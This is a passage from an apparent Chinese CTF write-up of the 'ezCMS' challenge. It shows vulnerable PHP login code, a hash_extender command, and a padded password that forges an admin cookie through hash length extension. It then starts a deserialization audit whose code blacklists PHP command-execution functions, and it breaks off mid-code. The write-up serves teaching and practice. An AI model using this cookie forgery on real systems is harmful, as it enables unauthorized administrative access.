   ```

- localtime第一参数默认是time(), 不能接受布尔值也就是chdir的返回值

- localtime() 返回数组来表示当前时间, 第一项是当前的秒数, 要让chr转换成点号的话就要在第46秒执行

  

## ezCMS

源码``www.zip``, 关键代码如下:

身份验证部分

```
function login(){
    $secret = "********";
    setcookie("hash", md5($secret."adminadmin"));
    return 1;

}
function is_admin(){
    $secret = "********";
    $username = $_SESSION['username'];
    $password = $_SESSION['password'];
    if ($username == "admin" && $password != "admin"){
        if ($_COOKIE['user'] === md5($secret.$username.$password)){
            return 1;
        }
    }
    return 0;
}
```

可以明显看出这里有哈希长度扩展攻击.

哈希生成

```
./hash_extender -d 'admin' -s 52107b08c0f3342d2153ae1d68e6262c -f md5 -a 'ch3n9w' --out-data-format=html -l 13 --quiet
```

得到了新的哈希值,添加到cookie[user]中

然后新的登录用户名: admin

用户密码:admin%80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%90%00%00%00%00%00%00%00ch3n9w

第二部分反序列化代码审计.

```php
class Check{
    public $filename;

    function __construct($filename)
    {
        $this->filename = $filename;
    }

    function check(){
        $content = file_get_contents($this->filename);
        $black_list = ['system','eval','exec','+','passthru','`','assert'];
        foreach ($black_list as $k=>$v){
```